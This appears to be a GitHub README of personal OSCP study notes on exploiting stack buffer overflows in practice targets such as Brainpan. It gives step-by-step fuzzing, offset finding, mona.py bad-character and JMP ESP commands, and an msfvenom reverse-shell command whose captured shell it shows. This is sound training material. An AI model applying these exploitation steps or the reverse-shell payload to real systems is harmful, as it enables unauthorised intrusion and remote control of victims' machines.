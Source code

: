 # OSCP-BUFFER-OVERFLOW-PREP
This Repositry has my own practice notes of Buffer overflow Vulnrable Machine in easy,Beginer way.

If You have fear of buffer overflow, then i'll say bro just chill it is easy. Make some practice.
you have to follow som steps to get the shell of victim host.
Brainpain,VulnServer,Ftp.....and more comming soon
Be Connected Thank you!!


The very firs step is to getting the crash byte after knowing the host and port,vuln param 
of the server.....

Part 1

    Fuzzing the service parameter and getting the crash byte
    Generating the pattern
    Finding the correct offset where the byte crashes with the help of (EIP)

Part 2

    Finding the bad character with mona.py, and comparing bad character strings with mona.py
    Finding return address (JMP ESP) with mona.py

Part 3

    Setting breakpoint to verify RETURN address is correct or not
    Creating reverse shell with the help of msfvenom
    Adding NOP’s to the script
    Getting shell





1) So for the Any binary we have to fuzz from 100 to Untill crash the program,
   To do so first we have to find out which input parameter of the is vulnrable to overflow.
   Then find out the crash byte of the program by fuzzing the parameter.
 
   

2) creating offset value. with msf 
   > /usr/bin/msf-pattern_create -l 3000
   where 3000 is Crash byte of the program when send Note Down the eip (Make sure to verify once again by restarting the immunity and this time send 'A'*crashbyte and 'B'*4 after the crashing   again you'll be able to see the 42424242 in EIP  )
 
   After getting the crash byte we have to control the intruction pointer
   to do this we'll use the msf venome 

3) /usr/bin/msf-pattern_offset -l 3000 -q 35724134 (this is value of eip)

    output- [*] Exact match at offset 524 


4) after getting the offset value wee need to perform the overflow with some 
   more thing 
   now we have offset=524
   eip="B" * 4 (this will always contain the eip address after crashing the program as 42424242 whic is hex of B )
   shellcode= "C"* 400 (this is the space where the stack in buffer fill with  shell code )

5) Creating the working dir in im-debug
    
    <h4> '!mona config -set workingfolder c:\logs\%p' </h4>

 Now next is to finding the bad char with the help of all possible hex

6) to do this we have to create an array with mona.py to compair with out paylod

   !mona bytearray -b '\x00'

   send the payload 

7) now we have to verify if ther's any badchar....
    !mona compare -f C:\logs\brainpan\bytearray.bin -a 005FF910
   if the result is normal then ther's only one badchar  ecept: "/x00"

Now we have to find the jump esp location 

8) check if there is any module that is vulnrable and false by os
   !mona modules 
   ther's a module brainpain.exe

9) to get the jump statment have to perform this command

   !mona find -s "\xff\xe4" -m baianpan.exe
   this will retun the address of jump eip
   save the jump eip 311712f3 set this eip in payload as
   eip=eip= '\xf3\x12\x17\x31'


10) setting the break point to check does it working or not 
    bp 0x311712f3
    to verify the break point is set view>view breakpoint>

11) Now set the  eip to  and try run again the payload 
    this will pass the program and jump to our brekpoint now 
    when resume the program it will retrun to shellcode that we given as payld

12) Creating the reverse shell code with the help of the msfvenome
     msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.132 LPORT=1234 -b '\x00' -f c

where(-b is bad character and -f c is the revershell in c language

13) And add the nops valu (I'm using this because maybe control jump by leaving 8 or 16 bytes after the shell code)

nops='\x90' * 10

14) add the nops to our payload before the shellcode value and start the listening on our side....

15) after the sending the shell the im_debug will pause so we have to tap on play again .....boom we got the shell

C:\Users\Saimson\Downloads>

C:\Users\Saimson\Downloads>whoami
whoami
desktop-hup6j62\saimson 


